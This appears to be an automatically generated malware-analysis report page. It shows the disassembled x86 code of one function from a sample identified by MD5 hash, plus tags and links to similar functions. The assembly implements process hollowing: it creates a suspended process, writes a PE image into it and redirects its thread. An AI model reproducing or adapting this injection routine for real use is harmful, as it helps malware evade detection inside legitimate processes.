 ```yaml
---
layout: post
title:  "fcn.004091da @ 69b3c79878674ea715338a112bb5caa6"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.004091da
- **Origin (md5):** 69b3c79878674ea715338a112bb5caa6
- **VirusTotal:** [virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6][virustotal_ref]

# Code Tags
<span class="tag" id="MEMORY">MEMORY</span>
<span class="tag" id="PROCESS">PROCESS</span>
<span class="tag" id="THREAD">THREAD</span>


# Similar Functions

1. [method.SharedMemoryFileset.virtual\_0][similar_1_ref] (sim.: 0.8907798015337862)
2. [fcn.0048bced][similar_2_ref] (sim.: 0.8779650670176252)
3. [fcn.00408461][similar_3_ref] (sim.: 0.852387782527837)
4. [fcn.783a4006][similar_4_ref] (sim.: 0.8462782447198774)
5. [fcn.00673479][similar_5_ref] (sim.: 0.8458594213145219)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
sub esp,0x58
push ebx
push edi
xor eax,eax
lea edi,[ebp-0x14]
stosd dword es:[edi],eax
stosd dword es:[edi],eax
stosd dword es:[edi],eax
push 0x44
stosd dword es:[edi],eax
xor ebx,ebx
lea eax,[ebp-0x58]
push ebx
push eax
call fcn.00411550
add esp,0xc
lea eax,[ebp-0x14]
push eax
lea eax,[ebp-0x58]
push eax
push ebx
push ebx
push 0x8000004
push ebx
push ebx
push ebx
push dword[ebp+0x10]
push dword[ebp+8]
call dword[sym.imp.KERNEL32.dll_CreateProcessA]
test eax,eax
je 0x409335
push 4
push 0x1000
push 4
push ebx
call dword[sym.imp.KERNEL32.dll_VirtualAlloc]
mov edi,eax
push edi
mov dword[edi],0x10007
push dword[ebp-0x10]
mov dword[ebp-4],edi
call dword[sym.imp.KERNEL32.dll_GetThreadContext]
test eax,eax
je 0x409335
push ebx
push 4
lea eax,[ebp+0x1c]
push eax
mov eax,dword[edi+0xa4]
add eax,8
push eax
push dword[ebp-0x14]
call dword[sym.imp.KERNEL32.dll_ReadProcessMemory]
push 0x40
push 0x3000
push dword[esi+0x50]
push dword[esi+0x34]
push dword[ebp-0x14]
call dword[sym.imp.KERNEL32.dll_VirtualAllocEx]
mov dword[ebp+8],eax
cmp eax,ebx
jne 0x409296
push dword[ebp-0x10]
call dword[sym.imp.KERNEL32.dll_ResumeThread]
xor eax,eax
jmp 0x409338
jbe 0x409335
mov edi,dword[sym.imp.KERNEL32.dll_WriteProcessMemory]
push ebx
push dword[esi+0x54]
push dword[ebp+0xc]
push eax
push dword[ebp-0x14]
call edi
xor eax,eax
mov dword[ebp+0x10],ebx
cmp ax,word[esi+6]
jae 0x4092f8
mov dword[ebp+0x14],ebx
mov ecx,dword[ebp+0xc]
mov eax,dword[ebp+0x14]
mov edx,dword[ebp+0x18]
mov edx,dword[edx+0x3c]
add eax,ecx
lea eax,[eax+edx+0xf8]
mov edx,dword[eax+0x14]
push ebx
push dword[eax+0x10]
mov eax,dword[eax+0xc]
add eax,dword[ebp+8]
add edx,ecx
push edx
push eax
push dword[ebp-0x14]
call edi
movzx eax,word[esi+6]
inc dword[ebp+0x10]
add dword[ebp+0x14],0x28
cmp dword[ebp+0x10],eax
jl 0x4092bd
push ebx
mov ebx,dword[ebp-4]
push 4
lea eax,[esi+0x34]
push eax
mov eax,dword[ebx+0xa4]
add eax,8
push eax
push dword[ebp-0x14]
call edi
mov eax,dword[esi+0x28]
add eax,dword[ebp+8]
push ebx
mov dword[ebx+0xb0],eax
push dword[ebp-0x10]
call dword[sym.imp.KERNEL32.dll_SetThreadContext]
push dword[ebp-0x10]
call dword[sym.imp.KERNEL32.dll_ResumeThread]
mov eax,dword[ebp-0xc]
jmp 0x409338
mov eax,dword[ebp+0x14]
pop edi
pop ebx
leave
ret 0x18
{% endhighlight %}


[similar_1_ref]: /report/method.SharedMemoryFileset.virtual_0@ba5ec83721de3ca10b3c9583f3b2c6a1
[similar_2_ref]: /report/fcn.0048bced@d96761eb00d2d97e2b6f5ffffed0b46a
[similar_3_ref]: /report/fcn.00408461@470263fe7e7cc115b95cd041d643e3b5
[similar_4_ref]: /report/fcn.783a4006@ebea46c6b17785efc2ebcb24ad99656c
[similar_5_ref]: /report/fcn.00673479@91d2dbd35d267fbd0e76a6957e77ff88
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6